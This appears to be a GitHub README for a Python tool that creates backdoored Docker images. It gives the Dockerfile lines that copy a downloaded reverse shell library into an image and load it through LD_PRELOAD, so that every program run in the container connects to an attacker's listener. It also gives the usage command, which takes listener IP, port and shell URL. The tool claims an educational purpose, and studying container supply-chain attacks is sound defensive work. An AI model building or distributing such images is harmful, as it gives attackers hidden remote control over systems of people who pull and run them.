 # Tojanizedocker - Docker Backdoor Image Creator (Based on Dockerscan)

This Python script facilitates the creation of a backdoored Docker image. It automates the process by downloading a specified reverse shell binary, embedding it into the Docker image, and configuring environment variables to establish a reverse shell connection. 
This is a Python script that is going to help a user to create a Docker image with a backdoor. By doing so, it makes the process automatic by making use of a certain reversed shell binary, embedding it into the Docker image and setting environment variables to provide reverse shell connection. The script is designed with the use of a reverse shell component that was originally developed by [cr0hn - Dockerscan](https://github.com/cr0hn/dockerscan/blob/590a844418038d25e6649e609ef630868e0c9161/dockerscan/actions/image/modifiers/shells/reverse_shell.so).

## Background

The motivation for developing this script stemmed from the lack of recent updates on the Dockerscan project; the last commit was made on May 27, 2020 ([view commit](https://github.com/cr0hn/dockerscan//commit/590a844418038d25e6649e609ef630868e0c9161). The need for a substitute that would be easy to use and work with the different versions of Python which was used by Dockerscan, allowed us to design one that is.

## Purpose

It is achieved by designing the software for educational purposes, enabling users to understand and demonstrate the operations of Docker image manipulation using `LD_PRELOAD`.

## How It Works

The script performs several key operations to create a backdoored Docker image:

1. **Download Reverse Shell Binary**: It downloads a reverse shell shared object file (`.so`) from a specified URL. This file is designed to establish a remote connection from the Docker container to an attacker-controlled server.

2. **Create Dockerfile**: The script dynamically generates a Dockerfile that incorporates the downloaded reverse shell. This Dockerfile instructs Docker to copy the reverse shell into the image and set it to be loaded before any other library by using the `LD_PRELOAD` environment variable.

## Understanding LD_PRELOAD and Reverse Shell Injection

- The Dockerfile created by this script contains the following critical lines:

```
COPY reverse_shell.so /usr/share/lib/reverse_shell.so
ENV LD_PRELOAD=/usr/share/lib/reverse_shell.so
```
## What Does This Do?

- `COPY reverse_shell.so /usr/share/lib/reverse_shell.so`: Command copies the reverse shell binary (reverse_shell.so - used in dockerscan) into a specific location inside the Docker image. 

- `ENV LD_PRELOAD`=/usr/share/lib/reverse_shell.so: By setting the LD_PRELOAD environment variable, it is intructed that the Linux dynamic linker to load our specified `reverse_shell.so` file before any other libraries when a program is run. This is a powerful method for modifying the behavior of compiled applications transparently.

- Use LD_PRELOAD leading to immediate code execution: Using `LD_PRELOAD` with a constructor attribute in the shared object allows executing custom code before the main application starts. This can be used for debugging, monitoring, or altering the application's normal operation without modifying the source code.

  
## Requirements

Before running the script, ensure that Docker is installed and running on your system. Python 3.x is also required.

## Installation

Install the required Python libraries with:

```
pip install -r requirements.txt
```

## Usage

```
python docker_backdoor.py -i <base-image> -o <output-image> -l <listener-ip> -p <listener-port> --shell-url <url-to-reverse-shell>
```

## Credits [Based On]

- **Backdooring Docker images - Reverse shell**: [Backdooring Docker images - Reverse shell](https://greencashew.dev/posts/backdooring-docker-images-reverse-shell/)
- **DockerScan GitHub Repository**: [Source for DockerScan, a tool for security analysis of Docker containers](https://github.com/cr0hn/dockerscan/)
- **LD_PRELOAD: How to Run Code at Load Time**: [LD_PRELOAD: How to Run Code at Load Time](https://www.secureideas.com/blog/2021/ldpreload-runcode.html)
- Thanks to #chatgpt
